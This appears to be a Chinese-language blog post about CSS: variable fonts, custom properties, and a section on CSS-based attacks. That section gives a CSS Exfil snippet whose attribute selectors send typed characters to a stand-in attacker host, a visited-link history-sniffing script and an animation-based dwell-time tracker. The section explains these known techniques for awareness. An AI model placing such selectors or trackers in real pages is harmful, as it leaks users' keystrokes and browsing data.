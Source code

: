 # 🎨 有关 CSS 的一些极有趣的东西

[TOC]

## 灵活字体

<!-- > The future is variable, though the future is in the variable -->

灵活字体（Variable fonts）是一种包含字体元信息如字宽、字重（甚至自定义形变）的字体的字体方案。主要通过使用 CSS `font-variation-settings` 属性配置变形轴，来达到使字体形变的效果，如：

```CSS
h2 {
  font-size: 64px;
  font-variation-settings: 'wght' 375;
}

```

一张图展示其迷人之处：

![Variable fonts](http://image.lionad.art/mgear/image/2019-11-21-02-03-38.gif)

这里有一个展示其强大排版能力的示例页面：

<p class="codepen" data-height="265" data-theme-id="dark" data-default-tab="result" data-user="jpamental" data-slug-hash="wvwgGLK" style="height: 265px; box-sizing: border-box; display: flex; align-items: center; justify-content: center; border: 2px solid; margin: 1em 0; padding: 1em;" data-pen-title="Layout variations, part deux">
  <span>See the Pen <a rel="nofollow" href="https://codepen.io/jpamental/pen/wvwgGLK">
  Layout variations, part deux</a> by Jason Pamental (<a rel="nofollow" href="https://codepen.io/jpamental">@jpamental</a>)
  on <a rel="nofollow" href="https://codepen.io">CodePen</a>.</span>
</p>
<script async src="https://static.codepen.io/assets/embed/ei.js"></script>

啊，所以说要是不会设计还是做不出漂亮页面（狗子脸）

## CSS 攻击

也许大部分玩家都了解或熟悉 CSRF、XSS 之类的攻击方式及防御方式，不过你听说过这些使用 CSS 进行攻击的方法么？

### 输入检测

CSS Exfil 漏洞攻击意味着攻击者可以使用选择器确定你在页面输入的按键再通过 CSS 请求将其记录，如下代码：

```CSS
input[value^=a]{
    background-image: url(http://hack.com/a);
}
input[value^=b]{
    background-image: url(http://hack.com/b);
}
/* ... */
input[value^=z]{
    background-image: url(http://hack.com/9);
}
```

当你在输入框中输入字母的同时，浏览器将自动向攻击者指定的地址发送请求，你的字母输入顺序也就随之被记录下来了，结合 CSS 中其它特征，通过 CSS Exfil 攻击可以直接推断出一些输入简单的密码，凭借分析，也能推测出更加复杂的密码。

这里有一个测试网址可以用以重现与玩耍：[CSS Exfil 攻击测试](http://eaea.sirdarckcat.net/cssar/v2/)

### 历史记录检测

现在我们丢弃刚才提到的 CSS 选择器，转而使用 CSS 和浏览器打交道中所用到的其它东西，比如说：我们都知道在浏览器中点击过某个链接后，那个链接就会变色——对的，没错，问题就在这儿——通过向页面插入大量超链接，可以通过标签的颜色就能判断你有没有浏览过这些链接，从而绕过浏览器限制。代码类似以下：

```js
const link = document.createElement('a')
link.href = 'www.baidu.com'
document.body.appendChild(link)
const color = document.defaultView
  .getComputedStyle(link, null)
  .getPropertyValue('color')

const isView = color === 'rgb(0, 0, 255)'
```

想看源代码及或寻找更深入的讨论，请点这儿：[i-know-where-youve-been](https://blog.jeremiahgrossman.com/2006/08/i-know-where-youve-been.html)

### 用户轨迹追踪

了解过 CSS Exfil 后，我们大概都能想到通过纯 CSS 代码来追踪用户鼠标点击、甚至是用户鼠标轨迹的方案，但是关于用户在页面的停留时长，你有没有思路呢？

以下是一种可能的解决方案：

```CSS
@keyframes time-count {
  0% {
    background-image: url('track.php?duration=1s');
  }
  1% {
    background-image: url('track.php?duration=2s');
  }
  /* ... */
  100% {
    background-image: url('track.php?duration=100s');
  }
}
#duration:hover::after {
  animation-name: time-count;
  animation-duration: 100s;
}
```

### 其它攻击手段

这里有一个不全的清单：

- [Side-channel Attack](https://github.com/evonide/misc)
- [Text Reader](https://bugs.chromium.org/p/chromium/issues/detail?id=543078)
- [Scrollbar Attack](https://github.com/cgvwzq/css-scrollbar-attack)

欢迎各位在评论区补充（在此先谢过大佬们）

## CSS 变量

CSS 变量（官方叫做 Custom Properties，即自定义属性）是一个意义于作用同样强大的东西，它给 CSS 带来了原生层面意义上的代码模块化。我们可以通过浏览器 API 与 JavaScript 进行交互，使得其功效进一步扩大，同时提高 CSS 的可读性及维护性。通过给 CSS 变量赋任意有意义的值，并交由 calc 函数计算，可以产生具有可读性的组合值。比如下面这个例子：

```css
.my-component {
  --theme-color: red;
  --card-width: 30px;
}
.my-component .title {
  color: var(--my-component-theme-color);
}
.my-component .card-container {
  width: calc(var(--my-component-card-width) * 3);
  border: solid 1px var(--my-component-theme-color);
}
```

我们给组件（my-component）定义了主题色及卡片宽度两个变量，这两个变量可以在作用范围内任意使用及被改造。这两个变量也意味着组件的样式向外部暴露了两个可供修改的入口。一般而言，我们可以使用这两种方法继续扩展代码，以达到修改变量的目的：

```html
<link rel="stylesheet" href="my-component.css" />
<style>
  .my-component {
    --theme-color: gray;
  }
</style>
```

```JavaScript
const $con = document.querySelector('.my-component')
$con.style.setProperty('--theme-color', 'gray')
```

这里有一个能展示 CSS 变量超能力的极具吸引力的例子：

<p class="codepen" data-height="265" data-theme-id="dark" data-default-tab="css,result" data-user="danwilson" data-slug-hash="BRdJVZ" style="height: 265px; box-sizing: border-box; display: flex; align-items: center; justify-content: center; border: 2px solid; margin: 1em 0; padding: 1em;" data-pen-title="Single Div Accordion (Animated with CSS Variables)">
  <span>See the Pen <a rel="nofollow" href="https://codepen.io/danwilson/pen/BRdJVZ">
  Single Div Accordion (Animated with CSS Variables)</a> by Dan Wilson (<a rel="nofollow" href="https://codepen.io/danwilson">@danwilson</a>)
  on <a rel="nofollow" href="https://codepen.io">CodePen</a>.</span>
</p>
<script async src="https://static.codepen.io/assets/embed/ei.js"></script>

不知道你酸了没有，反正我是酸了。
